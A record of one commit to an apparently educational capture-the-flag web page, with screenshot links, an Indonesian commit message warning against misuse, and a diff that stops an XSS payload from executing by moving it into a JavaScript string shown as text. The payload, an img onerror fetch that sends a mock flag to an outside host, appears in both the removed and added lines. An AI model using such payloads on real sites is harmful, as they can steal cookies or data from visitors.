

Before and after one commit to Anhaproject/ctf-challenge-, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "📋 Copy Payload". Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html
Edukasi dan pembelajaran
Jangan salah gunakan kode ini untuk merugikan orang lain⚠️

```diff
--- a/index.html
+++ b/index.html
@@ -37,9 +37,11 @@
       font-size: 12px;
       line-height: 1.8;
       overflow-x: auto;
-      white-space: pre;
+      white-space: pre-wrap;
+      word-break: break-all;
       color: #00ff88;
       margin-bottom: 10px;
+      font-family: 'Courier New', monospace;
     }
     .copy-btn {
       display: block;
@@ -54,6 +56,7 @@
       cursor: pointer;
       margin-top: 8px;
     }
+    .copy-btn:active { opacity: 0.7; }
     .warning {
       background: rgba(255,204,0,0.08);
       border: 1px solid rgba(255,204,0,0.3);
@@ -69,7 +72,7 @@
       border-radius: 6px;
       padding: 20px;
       text-align: center;
-      font-size: 18px;
+      font-size: 16px;
       color: #00ff88;
       font-weight: 700;
     }
@@ -87,7 +90,7 @@
 <!-- PAYLOAD MOCK -->
 <div class="card">
   <div class="label">💉 Payload Challenge - Mock Flag</div>
-  <div class="code-box" id="payload"><img src=x onerror=fetch(`https://ctf-challenge-anha1.vercel.app/?flag=CTF{edukasi_xss_aman}`)></div>
+  <div class="code-box" id="payload"></div>
   <button class="copy-btn" onclick="copyPayload()">📋 Copy Payload</button>
 </div>
 
@@ -100,9 +103,12 @@
 </div>
 
 <script>
+  // Payload diisi pake JS biar nggak ke-render HTML
+  const payloadText = `<img src=x onerror=fetch(\`https://ctf-challenge-anha1.vercel.app/?flag=CTF{edukasi_xss_aman}\`)>`;
+  document.getElementById('payload').textContent = payloadText;
+
   function copyPayload() {
-    const text = document.getElementById('payload').textContent;
-    navigator.clipboard.writeText(text).then(() => {
+    navigator.clipboard.writeText(payloadText).then(() => {
       const btn = document.querySelector('.copy-btn');
       btn.textContent = '✅ Tersalin!';
       setTimeout(() => btn.textContent = '📋 Copy Payload', 2000);
```
